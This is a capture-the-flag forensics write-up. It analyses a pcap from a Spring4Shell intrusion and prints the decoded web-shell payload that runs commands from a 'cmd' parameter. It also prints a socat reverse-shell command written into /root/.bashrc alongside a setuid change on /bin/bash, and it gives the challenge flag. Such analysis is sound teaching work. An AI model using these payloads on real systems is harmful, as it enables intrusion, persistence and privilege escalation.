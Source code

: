 # Wrong Spooky Season



> “I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.” Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

{% file src="../../.gitbook/assets/forensics_wrong_spooky_season.zip" %}

Let's check file

```shell
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file forensics_wrong_spooky_season.zip 
forensics_wrong_spooky_season.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file capture.pcap                     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

We have <mark style="color:yellow;">pcap</mark> file!

Use <mark style="color:red;">Wireshark</mark> open it.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We have a lot of TCP and HTTP protocol. Let's check it

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Filter <mark style="color:blue;">HTTP</mark>, We can see <mark style="color:orange;">**ip.src = 192.168.1.180**</mark> <mark style="color:orange;"></mark><mark style="color:orange;"></mark> (Attacker) sent a POST request&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Follow TCP stream we can see the URLencoded:

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Use CyberChef decode this

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Check google I know it is a Spring4Shell

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

&#x20;In this packet, Hacker is installing <mark style="color:red;">socat</mark> in the victim system and use reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```basic
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
{% endcode %}

In this we can see base64 encode so suspicious, check it

```python
import base64
a = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"[::-1]
print(base64.b64decode(a))
```

We got flag:&#x20;

{% hint style="info" %}
HTB{j4v4\_5pr1ng\_just\_b3c4m3\_j4v4\_sp00ky!!}
{% endhint %}

